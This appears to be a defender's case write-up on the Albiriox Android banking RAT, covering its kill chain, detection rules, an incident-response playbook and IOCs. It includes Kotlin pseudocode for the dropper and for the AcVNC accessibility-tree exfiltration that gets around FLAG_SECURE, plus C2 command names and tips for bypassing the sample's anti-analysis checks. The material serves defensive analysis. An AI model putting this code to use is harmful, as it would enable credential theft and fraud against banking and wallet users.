

# Albiriox — Android MaaS RAT with Accessibility-VNC FLAG_SECURE bypass (Cleafy Labs, late-2025 / active 2026)

## TL;DR

Albiriox is a new Russian-speaking Android Malware-as-a-Service offered on cybercrime forums at roughly USD 650-720 per month. It targets **400+ banking, fintech and cryptocurrency apps worldwide**, performs On-Device Fraud (ODF), and ships a novel remote-control mode called **AcVNC** (Accessibility-VNC). AcVNC reconstructs the live UI by serialising the `AccessibilityNodeInfo` tree instead of the framebuffer, which **bypasses Android's `FLAG_SECURE` protection** that banking and crypto wallet apps rely on to block screen capture. The first delivery wave was reported by Cleafy Labs using a fake **Penny Market** dropper in the DACH region; iteration through Q1-Q2 2026 has expanded geography. The case matters because it forces a hard re-think of SMS-OTP, push-2FA and overlay-resistant flows on Android.

## Attribution and confidence

- **Cluster name (vendor):** Albiriox (Cleafy Labs, original disclosure).
- **Aliases:** none widely adopted; some MaaS forums refer to it by builder version strings.
- **Vendor that discovered:** **Cleafy Labs**, late-2025 first public technical write-up; secondary coverage by The Hacker News, SecurityWeek, Security Affairs, SecurityOnline, Infosecurity Magazine through Q1-Q2 2026.
- **Confidence:** **medium**. Russian-speaking advertisements, cyrillic forum posts, MaaS pricing in line with the Anatsa / RatOn / BingoMod / Brokewell ecosystem. No public link to a named state-nexus or named e-crime crew.
- **Genealogy / link with previous repo cases:** none yet. This is the first mobile-only entry in the diary; previous cloud-identity case `2026-05-06_CodeOfConduct-AiTM-Storm-1747` covered Tycoon2FA / Storm-1747 AiTM flows, where SMS-OTP was already shown to be brittle. Albiriox attacks the same primitive from the device side instead of the network side.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Initial Access | T1660 | Sideload of a dropper APK delivered via smishing / social ads / fake Google Play page |
| Execution | T1623.001 | Native API; `AccessibilityService` chain becomes the execution primitive after consent |
| Defense Evasion (delivery) | T1655.001, T1633 | Masquerades as Penny Market / system update; anti-emulator and anti-Magisk checks |
| Persistence | T1541, T1624.001 | Foreground accessibility service + `BOOT_COMPLETED` / `MY_PACKAGE_REPLACED` receivers; auto-revoke of "App info" navigation |
| Privilege Escalation | T1626.001 | Auto-grants Device Admin, Notification Listener, Default SMS Handler, `SYSTEM_ALERT_WINDOW` via simulated taps from the Accessibility service |
| Credential Access | T1411, T1417, T1513, T1517 | Overlay attacks on hardcoded targets, keylogging, AccessibilityNodeInfo serialisation (AcVNC), notification interception, SMS read |
| Collection | T1430, T1513 | Geolocation, contacts, SMS body, accessibility node tree |
| Command and Control | T1437.001, T1521.002 | Plain-TCP heartbeat + WebSocket-over-TLS for AcVNC frames; symmetric crypto for some channels |
| Impact | T1641 | On-Device Fraud transfers, crypto wallet drainage, account takeover with hijacked OTP |



The diagram lays out a single victim-host lane (left) and an attacker-C2 lane (right). Stage boxes follow the order of the table above, with two emphasised primitives: the AccessibilityService self-grant chain at stage 4 and the AcVNC node-tree serialisation at stage 6 that bypasses `FLAG_SECURE`. The attacker C2 panel on the right shows the heartbeat, AcVNC stream and command channel. Detection anchors at the bottom map directly onto the rules in `sigma/`, `kql/`, `yara/` and `suricata/`.

## Stage-by-stage detail

### Initial Access

Smishing, paid social ads or links from compromised messaging accounts deliver a fake Google Play landing page with a sideload prompt for a regionally-themed dropper APK (the original Cleafy campaign used a fake **Penny Market** app for the DACH region; subsequent campaigns rotate the brand). The dropper manifest only requests `REQUEST_INSTALL_PACKAGES` and `QUERY_ALL_PACKAGES`, which is intentionally minimal so static play-protect-style checks do not flag it. MITRE: `T1660`.

### Execution and Defense Evasion (delivery)

The dropper renders a fake "System Update" HTML screen styled like Android 14/15 setup, prompts the user to enable "Install unknown apps for this source" via `Settings.ACTION_MANAGE_UNKNOWN_APP_SOURCES`, then downloads the real Albiriox APK from the C2 (`/install/<campaign_id>/payload.apk`) and commits it through `PackageInstaller.Session.commit()`.

The Albiriox APK itself is packed with **Golden Crypt** (Crypter-as-a-Service, Russian-speaking forums) and ships DEX strings encrypted with a per-build XOR key. Anti-analysis checks before any sensitive routine runs:

- `Build.FINGERPRINT` matched against `generic`, `unknown`, `goldfish`, `vbox86`, `emulator`.
- `getInstalledPackages()` blocked if `de.robv.android.xposed`, `eu.chainfire.supersu` or `com.topjohnwu.magisk` are present.
- `hasSystemFeature("android.hardware.telephony")` must be true.
- Battery level and call state checks (sandboxes typically run with 100% battery and `IDLE` call state).

MITRE: `T1655.001`, `T1633`, `T1027` (string encryption), `T1622` (anti-emulator).

```kotlin
// Pseudocode of the dropper flow (JSONPacker hides the real strings)
val intent = Intent(Settings.ACTION_MANAGE_UNKNOWN_APP_SOURCES)
intent.data = Uri.parse("package:${packageName}")
startActivityForResult(intent, REQ_UNKNOWN_SOURCES)
// onActivityResult -> if granted, fetch and install the Albiriox payload
```

### Persistence

After install, Albiriox guides the user with a full-screen overlay to `Settings → Accessibility` and asks to enable a service named "Reach Mode" / "Read Mode". Once the user toggles `BIND_ACCESSIBILITY_SERVICE`, Albiriox uses `AccessibilityService.dispatchGesture()` to **simulate the taps** that grant the rest of the privileges:

- `BIND_DEVICE_ADMIN` (DPM)
- `WRITE_SECURE_SETTINGS`
- `SYSTEM_ALERT_WINDOW` (overlay)
- `READ_SMS`, `RECEIVE_SMS`, `READ_CONTACTS`, `READ_CALL_LOG`
- `BIND_NOTIFICATION_LISTENER_SERVICE`
- `POST_NOTIFICATIONS` (Android 13+)

A `BootReceiver` listening to `BOOT_COMPLETED`, `QUICKBOOT_POWERON` and `MY_PACKAGE_REPLACED` re-arms the foreground accessibility service after every reboot. A self-protection loop watches for `Settings.ACTION_APPLICATION_DETAILS_SETTINGS` intents that target Albiriox's own `packageName` and dispatches a synthetic "Back" gesture before the user can reach `Force Stop` or `Uninstall`.

MITRE: `T1541`, `T1624.001`, `T1626.001`.

### Privilege Escalation

There is no kernel LPE. The escalation is **application-level**: Accessibility -> Device Admin -> Notification Listener -> Default SMS handler. Together they grant full UI control, OTP visibility through notifications and SMS, and resistance to the user's own attempts to clean up. MITRE: `T1626.001`.

### Credential Access

#### Overlay attack (well-known)

When `AccessibilityEvent.TYPE_WINDOW_STATE_CHANGED` reports a foreground activity matching the hardcoded `AppInfos` list (e.g. `com.bbva.bbvacontigo`, `com.santander.app`, `com.binance.dev`, `io.metamask`), Albiriox renders a full-screen `WebView` with `TYPE_APPLICATION_OVERLAY` that mimics the bank login. Captured credentials are exfiltrated as JSON. MITRE: `T1411`.

#### AcVNC (the technical novelty)

`FLAG_SECURE` instructs the window manager to mark surface buffers as protected. This blocks user screenshots and any consumer of `MediaProjection`. **It does not affect the Accessibility node tree.** Albiriox's `AccessibilityService` walks `rootInActiveWindow`, serialises every `AccessibilityNodeInfo` (bounds, class, text, view-id, password flag) into JSON and ships it to the operator over a WebSocket. The operator's panel reconstructs a synthetic DOM and pushes back gestures via `AccessibilityService.dispatchGesture()` while a black overlay is drawn over the user's screen.

```kotlin
// Pseudocode — core of AcVNC
override fun onAccessibilityEvent(event: AccessibilityEvent?) {
    val root = rootInActiveWindow ?: return
    val frame = serializeNodeTree(root)   // recursive: bounds + text + viewIdResourceName + className
    vncSocket.send(frame)
}

fun serializeNodeTree(node: AccessibilityNodeInfo, depth: Int = 0): JSONObject {
    val obj = JSONObject()
    val rect = Rect(); node.getBoundsInScreen(rect)
    obj.put("bounds", "${rect.left},${rect.top},${rect.right},${rect.bottom}")
    obj.put("class", node.className)
    obj.put("id", node.viewIdResourceName)
    obj.put("text", node.text?.toString())     // reads protected fields
    obj.put("password", node.isPassword)
    val children = JSONArray()
    for (i in 0 until node.childCount) {
        node.getChild(i)?.let { children.put(serializeNodeTree(it, depth + 1)) }
    }
    obj.put("children", children)
    return obj
}
```

Effects: TOTP from authenticator apps, push approvals, SMS-OTP — all reachable. `READ_SMS` plus the notification listener completes the picture. **Only FIDO2/passkey bound to device hardware survives**, because a passkey signature requires user verification on the secure element and is bound to the requesting origin. MITRE: `T1513`, `T1517`, `T1417`.

#### Keylogging

`AccessibilityEvent.TYPE_VIEW_TEXT_CHANGED` captures every keystroke in any app, including non-target webmail, password managers and notes. MITRE: `T1417`.

### Discovery

There is no lateral movement; the platform is mobile. Discovery is device-profiling: `getInstalledPackages()` cross-referenced with the hardcoded `AppInfos` list reports to the operator panel which banks and wallets are present. `TelephonyManager.getNetworkOperatorName()` and `getSimCountryIso()` enable per-locale overlay branding (BBVA in ES, Banco do Brasil in BR, etc.).

### Command and Control

- **Heartbeat:** plain TCP socket, 30-second cadence, payload includes HWID, battery, AcVNC active flag.
- **AcVNC stream:** `wss://<c2>/api/v1/stream` (TLS, no certificate pinning observed).
- **Operator commands:** `click`, `swipe`, `text:<value>`, `keyevent:<code>`, `launch:<package>`, `blackscreen:on|off`, `keylogger:start`, `screenshot`, `installpkg:<url>`, `uninstall:<package>`, `volume:0`, `lockdevice`, `wipe`.

The lack of TLS pinning makes a corporate proxy MITM trivially effective at recovering the C2 traffic; this is operationally immature compared to Brokewell. MITRE: `T1437.001`, `T1521.002`.

### Impact

On-Device Fraud transfers via the bank's own app while the victim sees a black overlay; for crypto wallets, the operator either drives a live signing flow or extracts the seed phrase rendered in `MetaMask` / `Trust Wallet` settings (the seed is in the AccessibilityNodeInfo tree even when `FLAG_SECURE` blocks screenshots). MITRE: `T1641`.

## RE notes

Cleafy has not published SHA256 anchors on the open web at the time of this entry, and no MalwareBazaar sample is yet tagged `Albiriox`. The reverser working from a private feed should expect:

| Component | SHA256 | Lang | Packer | Notes |
|---|---|---|---|---|
| Dropper APK | not public | Kotlin/Java | JSONPacker (string obfuscator) | Minimal manifest, only `REQUEST_INSTALL_PACKAGES` + `QUERY_ALL_PACKAGES` |
| Albiriox APK | not public | Kotlin/Java | Golden Crypt + DEX string XOR | Reflective DEX load at runtime, obfuscated class names |

Operational pointers for the analyst:

- Run inside an AVD `pixel_8_api34` system image. The Magisk / Xposed string check is name-based; renaming the apps or running on a stock AOSP image with a hooking framework that does not expose those package names lets the sample proceed past the gate.
- Hook `AccessibilityService.onAccessibilityEvent` and dump the serialised JSON to confirm AcVNC is active. Hook `WindowManager.addView` to capture overlay parameters (`TYPE_APPLICATION_OVERLAY`, `flags |= FLAG_NOT_FOCUSABLE | FLAG_LAYOUT_IN_SCREEN`).
- Plain-TCP handshake is unencrypted; capture with `tcpdump -i any -w albiriox.pcap host <c2>`. WebSocket frames are TLS but unpinned — install Burp's CA into `/system` (rooted AVD) to MITM.
- The decompiled `AppInfos` class is the cleanest signature target: an array literal of more than 400 banking and wallet package names is unusual outside the Anatsa / Brokewell / BingoMod / Albiriox family.

## Detection strategy

### Telemetry that matters

- **MDM / EMM / MTD** events: Lookout, Zimperium MTD, Pradeo, Workspace ONE Intelligence, Microsoft Defender for Endpoint Mobile (Android). Key event types: `AppInstalledFromUnknownSource`, `AccessibilityServiceEnabled`, `DeviceAdminGranted`, `DefaultSmsHandlerChanged`.
- **Carrier / SMS gateway logs**: high-rate auto-reply or auto-forward of SMS, anomalous OTP request bursts.
- **Bank server-side telemetry**: behavioural biometrics (BioCatch, Trusteer, Sift) — touch cadence, swipe profile, gyroscope drift versus baseline. Once the device is fully owned, behavioural anomaly is the only remaining signal.
- **There is no Sysmon on Android.** The corporate SOC hunts via MDM telemetry; the bank SOC hunts via session-anomaly scoring.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | [`sigma/albiriox_accessibility_bind_sideloaded_pkg.yml`](./sigma/albiriox_accessibility_bind_sideloaded_pkg.yml) | Accessibility service binding to a non-store, non-system package |
| Sigma | [`sigma/albiriox_default_sms_handler_change.yml`](./sigma/albiriox_default_sms_handler_change.yml) | Default SMS handler changed to a non-allowlist package |
| KQL (Defender XDR Mobile) | [`kql/albiriox_sideload_accessibility_with_banking_app.kql`](./kql/albiriox_sideload_accessibility_with_banking_app.kql) | Sideload + accessibility within 24h on a device with a banking/wallet package |
| KQL (Defender XDR Mobile) | [`kql/albiriox_notif_listener_with_read_sms.kql`](./kql/albiriox_notif_listener_with_read_sms.kql) | Non-stock package holds both Notification Listener and READ_SMS |
| YARA | [`yara/albiriox_android_banking_rat.yar`](./yara/albiriox_android_banking_rat.yar) | DEX magic + AcVNC marker + AppInfos + AccessibilityService gesture chain + 2 of N target package strings |
| Suricata | [`suricata/albiriox_plaintcp_heartbeat.rules`](./suricata/albiriox_plaintcp_heartbeat.rules) | Plain-TCP heartbeat shape from a mobile-VLAN client |

### Threat hunting hypotheses

- **H1 — "Banking sideload + accessibility within 24h"** ([`hunts/peak_h1_sideload_accessibility_banking.md`](./hunts/peak_h1_sideload_accessibility_banking.md)): on the corporate-mobile fleet, find devices that in the last 7 days installed a package outside Play Store **and** granted `AccessibilityService` to the same package **and** have at least one banking or wallet app installed.
- **H2 — "Notification listener + READ_SMS coexistence anomaly"** ([`hunts/peak_h2_notif_listener_read_sms.md`](./hunts/peak_h2_notif_listener_read_sms.md)): non-stock packages holding both Notification Listener and `READ_SMS` (Albiriox, Anatsa, Brokewell, BingoMod all coincide here; legitimate examples are Google Messages, Samsung Messages and the corporate SMS handler).

## Incident response playbook

### First 60 minutes (triage)

1. **Isolate the user from work identity**: revoke IdP tokens (`Revoke-MgUserSignInSession` for Entra ID; equivalent in Okta / PingOne), kill active SSO sessions.
2. **Quarantine in MDM/EMM**: Intune "Lost mode" or Workspace ONE block-on-device; Lookout containment.
3. **Do NOT factory reset yet** — capture evidence first; some Albiriox builds ship a `wipe` command and operators may push it on `BOOT_COMPLETED`.
4. **Capture an `adb bugreport`** if the device is corporate-managed with debug enabled: `adb bugreport bugreport-IR-<host>-$(date +%Y%m%d%H%M).zip`.
5. **List recent third-party packages and their installer source**: `adb shell pm list packages -i -f -3`.
6. **List active accessibility services and notification listeners**: `adb shell settings get secure enabled_accessibility_services`; `adb shell settings get secure enabled_notification_listeners`.
7. **If the user has crypto wallets**: the user must transfer balances to a clean wallet **first** — Albiriox may have already exfiltrated seed phrases, and a device wipe does not protect on-chain funds.

### Artifacts to collect

| Artifact | Path | Tool | Why it matters |
|---|---|---|---|
| Active Accessibility services | `settings get secure enabled_accessibility_services` | `adb shell` | Albiriox must be listed here |
| Active Notification listeners | `settings get secure enabled_notification_listeners` | `adb shell` | Albiriox must be listed here |
| Default SMS handler | `settings get secure sms_default_application` | `adb shell` | Anything other than Google/Samsung Messages or the corporate handler is suspect |
| Installed third-party packages with installer | `pm list packages -i -f -3` | `adb shell` | Sideloaded packages have `installer=null` or a file-manager / browser as installer |
| Base APK on disk (per package) | `/data/app/<pkg>-<hash>/base.apk` | `adb pull` | For SHA256 and MalwareBazaar submission |
| Device admin receivers | `dpm list-owners` | `adb shell` | Albiriox typically registers as a device admin, not as device owner |
| `dumpsys notification` | live | `adb shell dumpsys notification` | Confirms the notification listener was active when the OTP messages arrived |
| Full bug report | `bugreport-*.zip` | `adb bugreport` | Logcat, system services dump, package manager state |

### IR queries and commands

```bash
# adb (USB authorised)
adb shell pm list packages -i -f -3 \
  | awk -F"=" '{print $2}' | sort -u
adb shell settings get secure enabled_accessibility_services
adb shell settings get secure enabled_notification_listeners
adb shell settings get secure install_non_market_apps
adb shell settings get secure sms_default_application
adb shell dumpsys notification | grep -A2 'NotificationRecord'
# Hash the suspect APK (rooted device or owner-class debug)
adb shell sha256sum /data/app/<pkg>-*/base.apk
# Full bug report for offline review
adb bugreport bugreport-IR-$(date +%Y%m%d%H%M).zip
```

```kql
// Defender XDR Mobile — quick triage on a single user
DeviceEvents
| where Timestamp > ago(14d)
| where DeviceId == "<add_device_id>"
| where ActionType in ("AppInstalled","AppInstalledFromUnknownSource",
                       "AccessibilityServiceEnabled",
                       "DeviceAdminGranted",
                       "DefaultSmsHandlerChanged",
                       "NotificationListenerGranted")
| order by Timestamp asc
```

### Containment, eradication, recovery

- **Containment**: revoke IdP tokens, block at MDM, freeze banking sessions on the bank side (the user calls and asks for an emergency app-session kill). SIM lock if there is any prior suspicion of SIM swap. **Capture evidence before factory reset.**
- **Eradication**: factory reset (`Settings → System → Reset → Erase all data`). Re-enrol with MDM and **fresh** policies. If there is any doubt that the original enrolment used stolen credentials, switch the provisioning method to Knox Mobile Enrollment / zero-touch.
- **Recovery validation**: MDM compliance green for 7 days, no behavioural-anomaly alerts from the bank for 30 days, all TOTP authenticators re-enrolled on a different device, all SMS-OTP-only services migrated to FIDO2/passkey or to push-with-number-matching.

**What NOT to do:**

- Do not power the device off before listing packages and dumping the bug report — operators may have a `wipe` trigger on `BOOT_COMPLETED`.
- Do not rely on changing the bank app password alone. Albiriox is still on the device; it observes the new password instantly.
- Do not assume "the SMS arrived only on the phone, so the OTP is safe". Albiriox has full SMS read and notification listener.
- Do not trust SMS-OTP, push-without-number-matching, or TOTP read by the malicious accessibility service. Migrate to FIDO2/passkey.

### Recovery validation

- The user's device has been factory reset, re-enrolled and is reporting MDM compliance green for at least 7 days.
- The user has re-enrolled all TOTP authenticators on a different device.
- The user has rotated all credentials that may have been keylogged or read from notifications.
- The bank has issued new device-binding credentials (or the user has re-registered the device on the bank's app) and reports no anomalous transactions for 30 days.
- For crypto: balances have been moved to a clean wallet derived from a fresh seed before the device was reset.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| string | `AcVNC` | Albiriox internal mode marker for accessibility-driven VNC | medium | Cleafy Labs |
| string | `AppInfos` | Class holding 400+ banking/wallet target package names | medium | Cleafy Labs |
| string | `blackscreen:on` | Operator command to mask ODF behind a black overlay | medium | The Hacker News + Cleafy |
| string | `blackscreen:off` | Operator command to remove the black overlay | medium | The Hacker News + Cleafy |
| string | `Golden Crypt` | Crypter-as-a-Service used by the Albiriox builder | medium | Cleafy Labs |
| string | `Reach Mode` | Common label used by Albiriox campaigns for the Accessibility service | low | Cleafy Labs |
| note | Cleafy paywalled feed contains full SHA256s and live C2 IPs | not yet public | — | Cleafy Labs |

Full list with all context fields lives in [`iocs.csv`](./iocs.csv).

## Secondary findings

- **Masjesu / XorBot — DDoS-for-hire commercial IoT botnet (Trellix ARC, April 2026):** multi-arch ELF (i386, MIPS, ARM, SPARC, PPC, 68K, AMD64), XOR multi-stage encryption with keys `0x16 / 0x9F / 0x08`, masquerades as `/sbin/ld-linux`, runs a cron job every 15 minutes, opens hardcoded TCP listener `55988` for direct operator access, and **deliberately avoids US Department of Defense IP ranges to extend operational lifetime**. Peak observed throughput ~290 Gbps (TCP-ACK flood). Vector: D-Link / GPON / Netgear / Huawei / MVPower exposures.
- **Apache HTTP/2 CVE-2026-23918 — double free + possible RCE (CVSS 8.8):** affects servers serving HTTP/2 (`mod_http2`); immediate mitigation is to disable HTTP/2 (`Protocols h1` in `httpd.conf`) until upgrade. Treat as exploit-kit-imminent; instrument honeypots and watch for stack-overflow telemetry in `mod_http2`.
- **GreyNoise 2026 State of the Edge Report — 300k-IP residential ORB botnet:** 2,000 -> 300,000 IPs in 72 days, 73% residential, no prior history in GreyNoise data. Defeats geo-blocking, reputation scoring, rate limiting and IP blocklists. Pattern consistent with China-nexus operational relay box infrastructure used to launder edge-device exploitation.

## Pedagogical anchors

- **`FLAG_SECURE` is not a panacea.** It protects the framebuffer and `MediaProjection`, not the Accessibility node tree. Banking and wallet apps need to combine `FLAG_SECURE` with `setImportantForAccessibility(IMPORTANT_FOR_ACCESSIBILITY_NO)` on sensitive views and with `Activity.setRecentsScreenshotEnabled(false)` to harden against AcVNC-class abuse.
- **Accessibility is the universal escalation primitive on Android.** Anatsa, BingoMod, Brokewell and Albiriox all converge on the same single toggle. Any policy that does not constrain Accessibility-service grants on managed devices is incomplete.
- **SMS-OTP, push-2FA without number matching, and TOTP visible in the foreground are all reachable from an Albiriox-owned device.** The only durable second factor on Android is **FIDO2/passkey bound to the secure element**.
- **Detection is on the side-effects, not the binary.** Sideload + Accessibility bind + Notification Listener + Default SMS handler change on the same device within 24h is a high-signal precursor that survives Golden Crypt and DEX string encryption.
- **Crypto custody requires action before host remediation.** Once seed phrases may have been exfiltrated, on-chain funds must be moved to a clean wallet **before** the device is wiped.

## What's in this folder

| File | Purpose |
|---|---|
| [`README.md`](./README.md) | This case write-up |
| [`kill_chain.svg`](./kill_chain.svg) | Single-page kill chain diagram |
| [`sigma/albiriox_accessibility_bind_sideloaded_pkg.yml`](./sigma/albiriox_accessibility_bind_sideloaded_pkg.yml) | Sigma — Accessibility service binding to sideloaded package |
| [`sigma/albiriox_default_sms_handler_change.yml`](./sigma/albiriox_default_sms_handler_change.yml) | Sigma — Default SMS handler change to non-allowlist package |
| [`kql/albiriox_sideload_accessibility_with_banking_app.kql`](./kql/albiriox_sideload_accessibility_with_banking_app.kql) | KQL — sideload + accessibility within 24h on banking-app device |
| [`kql/albiriox_notif_listener_with_read_sms.kql`](./kql/albiriox_notif_listener_with_read_sms.kql) | KQL — Notification Listener + READ_SMS coexistence anomaly |
| [`yara/albiriox_android_banking_rat.yar`](./yara/albiriox_android_banking_rat.yar) | YARA — Albiriox APK heuristic |
| [`suricata/albiriox_plaintcp_heartbeat.rules`](./suricata/albiriox_plaintcp_heartbeat.rules) | Suricata — plain-TCP heartbeat shape from mobile VLAN |
| [`hunts/peak_h1_sideload_accessibility_banking.md`](./hunts/peak_h1_sideload_accessibility_banking.md) | PEAK H1 — sideload + accessibility + banking app |
| [`hunts/peak_h2_notif_listener_read_sms.md`](./hunts/peak_h2_notif_listener_read_sms.md) | PEAK H2 — notification listener + READ_SMS coexistence |
| [`iocs.csv`](./iocs.csv) | All Albiriox indicators with context |

## Sources

- [Cleafy Labs — Albiriox Exposed: A New RAT Mobile Malware Targeting Global Finance and Crypto Wallets](https://www.cleafy.com/cleafy-labs/albiriox-rat-mobile-malware-targeting-global-finance-and-crypto-wallets)
- [The Hacker News — New Albiriox MaaS Malware Targets 400+ Apps for On-Device Fraud and Screen Control](https://thehackernews.com/2025/12/new-albiriox-maas-malware-targets-400.html)
- [SecurityWeek — New Albiriox Android Malware Developed by Russian Cybercriminals](https://www.securityweek.com/new-albiriox-android-malware-developed-by-russian-cybercriminals/)
- [Security Affairs — Emerging Android threat 'Albiriox' enables full On-Device Fraud](https://securityaffairs.com/185194/malware/emerging-android-threat-albiriox-enables-full-on%E2%80%91device-fraud.html)
- [SecurityOnline — Albiriox: The Russian MaaS Android Trojan Redefining Mobile Fraud](https://securityonline.info/albiriox-the-russian-maas-android-trojan-redefining-mobile-fraud/)
- [Android Developers — Secure sensitive activities (FLAG_SECURE / Accessibility hardening)](https://developer.android.com/security/fraud-prevention/activities)
- [Trellix — Masjesu Rising: The Commercial IoT Botnet Built for Stealth, DDoS, and IoT Evasion](https://www.trellix.com/blogs/research/masjesu-rising-stealth-iot-botnet-ddos-evasion/)
- [GreyNoise — 2026 State of the Edge Report](https://www.greynoise.io/resources/2026-state-of-the-edge-report)
